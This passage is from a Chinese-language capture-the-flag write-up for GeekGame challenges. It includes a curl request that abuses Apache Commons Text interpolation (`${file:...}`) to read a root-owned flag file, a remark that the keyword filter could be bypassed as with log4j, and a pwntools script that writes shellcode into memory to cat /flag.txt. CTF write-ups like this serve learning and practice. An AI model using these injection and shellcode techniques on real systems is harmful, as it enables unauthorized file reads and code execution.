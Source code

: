 ### 打通整个系统

访问 bonus 服务的 source_bak 发现满足特定条件会使用 Commons Text。
里面还有一段过滤危险关键词的代码，说明这个库能干很多不该干事情。

读一下[文档](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html)，
有办法直接读取文件，那么就用它来读出flag了。

```
curl http://prob08-XXX.geekgame.pku.edu.cn/admin/http%253A%252F%252Flocalhost%253A8080%252Fbonus%252F/ -d "type=CommonsText&value=\${file:utf-8:/root/flag3.txt}"
```

说起来，题目里过滤关键词的方法肯定是不够的。
就和 log4j 时候用各种方法避免检测到 jndi 的关键词一样，这个过滤应该是有办法 bypass 的。


## 这也能卷

### Flag · 摆

审计代码发现没开会员的计算器是纯前端的，不会有什么问题。

猜测 flag 在 premium.js 里面。
下载源码后发现有 `const flag0` 的字样。
拷到浏览器开发工具里跑一下，flag 就出来了。

### 简单题

只用一种指令肯定是没有办法读取文件的。

原来想有没有办法用 call 指令调用程序里的 gadget，发现保护全开了，不知道 mmap 地址和基地址差多少，走不通。

gdb 调了一下，发现 mmap 地址原来就在 rdx 寄存器里，那把 shell code 写进去就解决了。

```python
from pwn import *

context.clear(arch='amd64', os = 'Linux')
shellcode = shellcraft.cat("/flag.txt") + shellcraft.exit()

print(shellcode)

shellcode_bytes = asm(shellcode)

inst = b''
offset = 0x149 + 7

for b in shellcode_bytes:
    inst += asm(f'movb [rdx + {offset}], {hex(b)}')
    offset += 1

with open('a.bin', 'wb') as f:
    f.write(inst)
```
